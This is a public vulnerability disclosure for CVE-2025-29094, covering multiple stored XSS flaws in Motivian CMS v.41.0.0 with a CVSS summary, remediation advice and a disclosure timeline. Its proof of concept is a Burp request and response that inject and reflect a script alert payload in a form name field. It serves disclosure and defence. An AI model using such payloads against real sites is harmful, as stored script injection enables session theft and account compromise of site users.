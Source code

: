 # CVE-2025-29094-Multiple-Stored-Cross-Site-Scripting-XSS
This repository reveals a security vulnerability discovered in Motivian Content Management System v.41.0.0.

- CVE-2025-29094: Multiple Stored Cross-Site Scripting (XSS)

This vulnerability was reported to the vendor in accordance with responsible disclosure practices, and to MITRE, which assigned a temporary CVE ID. The details are being made public following the expiration of the 45-day disclosure period.


## General Information

- **Title:** Motivian Stored Cross Site Scripting (XSS)
- **Vulnerability Type:** Stored XSS
- **Vendor of Product:** Motivian
- **Product:** Motivian Content Management System
- **Affected Version:** Motivian CMS v.41.0.0
- **Affected Components:** `Marketing/Forms`, `Marketing/Offers`, `Content/Pages`
- **Attack Vector:** Remote
- **Impact:** Arbitrary JavaScript execution in victim's browser
- **Severity:** Medium
- **CVSSv3 score:** 6.9
- **CVSSv3 vector:** CVSS:3.1:AV:N/AC:L/PR:H/UI:R/S:C/C:H/I:L/A:N
- **Found:** 2025-01-29
- **By:** Francesco Marcuccio
- **Status:** Reported to vendor on April 7, 2025 - No response/fix received by May 22, 2025


### Description

Cross Site Scripting vulnerability in Motivian Content Mangment System v.41.0.0 allows a remote attacker to execute arbitrary code via the `Marketing/Forms`, `Marketing/Offers` and `Content/Pages` components. The vulnerability was exploited by injecting malicious JavaScript code into various fields, including the title in `Marketing/Form` and `Marketing/Offers`, and the *header script* field in `Content/Pages`


### Proof Of Concept

The vulnerability can be exploited through various fields across different components. For demonstration purposes, the following proof-of-concept focuses on a specific scenario:

1. Navigate to the `Marketing/Forms` section and create a new form element.
2. Insert a malicious script into the *Name* field and save the form.

Below is the full transcript of the HTTP requests and responses used to demonstrate the issue:


#### _Burp Request_

```http title:BurpRequest 
POST /portal/admin/formbuilder/editCmsFormProps!saveForm.action HTTP/1.1
Host: [REDACTED]
Content-Length: 1362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

targetFieldId=&targetFormId=&targetFieldIndex=&openedTabProps=tab1&langSelected=it&form.id=1162&search_form_id=&search_form_status_id=&search_form_name=&search_form_description=&date_from=&date_to=&currentPage=&struts.token.name=EditCmsFormProps&EditCmsFormProps=DBFW4RH1O9SVF1J3J9TA0WSD5VHPJCKY&date_notification=&form.seoName_en=&form.seoName_el=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&[...]
```

#### _Burp Response_

```http title:BurpResponse 
HTTP/1.1 200 OK
Connection: close
Date: Wed, 05 Feb 2025 12:00:09 GMT
Content-Type: text/html;charset=ISO-8859-1
Content-Language: it-IT
Content-Length: 94593

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"><html xmlns="http://www.w3.org/1999/xhtml"><head> <title>MOTIVIAN | Content Management</title> <link rel="shortcut icon" type="image/x-icon" href="/portal/favicon.ico"/> <link rel="icon" type="image/x-icon" href="/portal/favicon.ico"/> <script> <a href="javascript:void(0)" class="sortingRow" onclick="javascript:simplePagesFormDoSort('status','asc')" >Status</a></td> <td class="TableHeader" colspan="9" style="width:188px">Management</td> <td class="TableHeader w10">&nbsp;</td> </tr> </table> </td> </tr> <tr> <td class="w10 row_odd">&nbsp;</td> <td class="w70 row_odd"> <div class="check-box w70" style="float:left"> <input type="checkbox" id="subpages_formIds_id_1162" name="formIds" value="1162"> <label for="subpages_formIds_id_1162">1162 </label> </div> </td> <td class="w40 row_odd"><img src="/portal/assets/images/red_form.png"/></td> <td class="NameCol row_odd"> <div class="wrap_words_within_rows w155"><script>alert(document.domain)</script> [...]
```

### Remediation

Sanitize all user input and escape output before rendering. Implement CSP (Content Security Policy) header to mitigate XSS risks.


## Disclosure Timeline

| Date       | Action                                |
| ---------- | ------------------------------------- |
| 2025-02-06 | CVE ID request                        |
| 2025-04-02 | CVE ID assignment                     |
| 2025-04-07 | Vulnerabilities reported to vendor    |
| 2025-05-30 | Public disclosure after 45-day window |

## Credit
Discovered and responsibly disclosed by:

[**Francesco Marcuccio**](https://www.linkedin.com/in/francesco-marcuccio-0433b9218)  
CyberSecurity Consultant, Penetration Tester

MITRE discoverer attribution listed as:  
[**Francesco Marcuccio**](https://www.linkedin.com/in/francesco-marcuccio-0433b9218)  


## Status
This CVE ID is currently in RESERVED status. It will be updated once officially published by MITRE.
